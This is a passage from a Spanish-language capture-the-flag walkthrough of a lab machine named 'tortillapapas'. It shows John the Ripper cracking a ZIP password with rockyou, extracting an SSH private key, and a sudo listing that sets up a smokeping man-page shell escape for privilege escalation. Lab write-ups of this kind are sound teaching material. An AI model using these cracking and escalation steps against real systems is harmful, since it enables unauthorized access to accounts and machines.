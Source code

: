 Y con **JohnTheRipper**, vamos a crackear el hash:
```bash
john -w:/usr/share/wordlists/rockyou.txt hashZIP
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cassandra        (cositas.zip)     
1g 0:00:00:00 DONE (2025-03-22 23:32) 33.33g/s 341333p/s 341333c/s 341333C/s 123456..1asshole
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Bien, obtuvimos la contraseña del **archivo ZIP**.

Ahora sí, descomprimamos ese archivo:
```bash
unzip cositas.zip
Archive:  cositas.zip
[cositas.zip] id_rsa password: 
replace id_rsa? [y]es, [n]o, [A]ll, [N]one, [r]ename: r
new name: id_rsaCositas
  inflating: id_rsaCositas           
  inflating: sa_matao_Paco.txt       

ls
cositas.zip  hash  hashZIP  id_rsa  id_rsaCositas  sa_matao_Paco.txt
```
Parece que obtuvimos los mismos archivos que encontramos en el directorio `/opt`.

<br>

<h2 id="shellEsc">Aplicando Shell Escape para Escalar Privilegios y Convertirnos en Usuario concebolla</h2>

Si revisamos los privilegios que tiene el **usuario sincebolla**, podremos ver que podemos usar un binario:
```bash
sincebolla@tortillapapas:~$ sudo -l
Matching Defaults entries for sincebolla on tortillapapas:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty
.
User sincebolla may run the following commands on tortillapapas:
    (concebolla) NOPASSWD: /usr/sbin/smokeping
```
Investigando un poco, encuentro que podemos intentar aplicar **Shell Escape** si es que podemos utilizar el argumento **man**.

| **Shell Escape** |
|:-----------:|
| *Un Shell Escape es una técnica que permite salir de un programa restringido y obtener acceso a una shell interactiva. Se usa comúnmente en entornos donde se ejecutan programas con privilegios elevados o en sistemas restringidos para intentar obtener acceso no autorizado.* |

<br>

Veamos si podemos verlo con el argumento **--help**:
```bash
sincebolla@tortillapapas:~$ sudo -u concebolla /usr/sbin/smokeping --help
Usage:
    smokeping [ --email | --makepod | --version | --restart ]

     Options:

     --man[=x]    Show the manpage for the program (or for probe x, if specified)

     --help       Help :-)
```
Ahí está.
